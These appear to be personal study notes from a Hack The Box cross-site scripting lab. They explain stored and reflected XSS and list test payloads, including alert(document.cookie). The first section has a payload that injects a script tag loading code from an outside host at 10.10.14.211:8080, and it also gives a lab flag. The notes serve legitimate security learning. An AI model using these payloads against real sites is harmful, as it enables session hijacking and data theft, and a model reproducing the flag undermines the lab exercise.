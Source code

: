 find a way to post comments

payload 

```
'><script src=http://10.10.14.211:8080/script.js></script>
```

HTB{cr055_5173_5cr1p71n6_n1nj4}

### STORED XSS 

AKA PERSISTENT XSS

> if our xss payload gets stored in back end db it measn our attack can affect any user that visits the page making it one of the most critical xss vulns

## XSS Testing Payloads

```html
<script>alert(window.origin)</script>
```

We use this payload as it is a very easy-to-spot method to know when our XSS payload has been successfully executed

we can confirm this by pressing ctrl + u to check the source code of the website
 ```html
<div></div><ul class="list-unstyled" id="todo"><ul><script>alert(window.origin)</script>
</ul></ul>
```

>[!note]
>Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of `window.origin` in the alert box, instead of a static value like `1`. In this case, the alert box would reveal the URL it is being executed on, and will confirm which form is the vulnerable one, in case an IFrame was being used.

some modern browsers block the alert() fucntion in specific locations so we should know some other xss payloads to verify existence

```html
<plaintext>, <script>print()</script>
```

Questions:
get the cookie

```html
<script>alert(document.cookie)</script>
```


# Reflected XSS

`Reflected XSS`, which gets processed by the back-end server, and `DOM-based XSS`, which is completely processed on the client-side and never reaches the back-end server.
